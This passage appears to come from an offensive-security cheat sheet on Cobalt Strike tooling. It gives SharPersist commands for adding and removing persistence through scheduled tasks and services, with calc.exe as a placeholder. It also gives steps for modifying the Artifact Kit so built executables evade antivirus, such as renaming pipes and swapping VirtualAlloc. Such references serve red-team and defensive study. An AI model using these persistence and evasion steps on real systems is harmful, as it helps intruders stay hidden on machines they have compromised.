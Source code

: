 ### Persistence Kit

* https://github.com/0xthirteen/MoveKit
* https://github.com/fireeye/SharPersist
    ```powershell
    # List persistences
    SharPersist -t schtaskbackdoor -m list
    SharPersist -t startupfolder -m list
    SharPersist -t schtask -m list

    # Add a persistence
    SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m add
    SharPersist -t schtaskbackdoor -n "Something Cool" -m remove

    SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Service" -m add
    SharPersist -t service -n "Some Service" -m remove

    SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add
    SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add -o hourly
    SharPersist -t schtask -n "Some Task" -m remove
    ```

### Resource Kit

> The Resource Kit is Cobalt Strike's means to change the HTA, PowerShell, Python, VBA, and VBS script templates Cobalt Strike uses in its workflows

### Artifact Kit

> Cobalt Strike uses the Artifact Kit to generate its executables and DLLs. The Artifact Kit is a source code framework to build executables and DLLs that evade some anti-virus products. The Artifact Kit build script creates a folder with template artifacts for each Artifact Kit technique. To use a technique with Cobalt Strike, go to Cobalt Strike -> Script Manager, and load the artifact.cna script from that technique's folder.

Artifact Kit (Cobalt Strike 4.0) - https://www.youtube.com/watch?v=6mC21kviwG4 :

- Download the artifact kit : `Go to Help -> Arsenal to download Artifact Kit (requires a licensed version of Cobalt Strike)`
- Install the dependencies : `sudo apt-get install mingw-w64`
- Edit the Artifact code
    * Change pipename strings
    * Change `VirtualAlloc` in `patch.c`/`patch.exe`, e.g: HeapAlloc
    * Change Import
- Build the Artifact
- Cobalt Strike -> Script Manager > Load .cna

### Mimikatz Kit
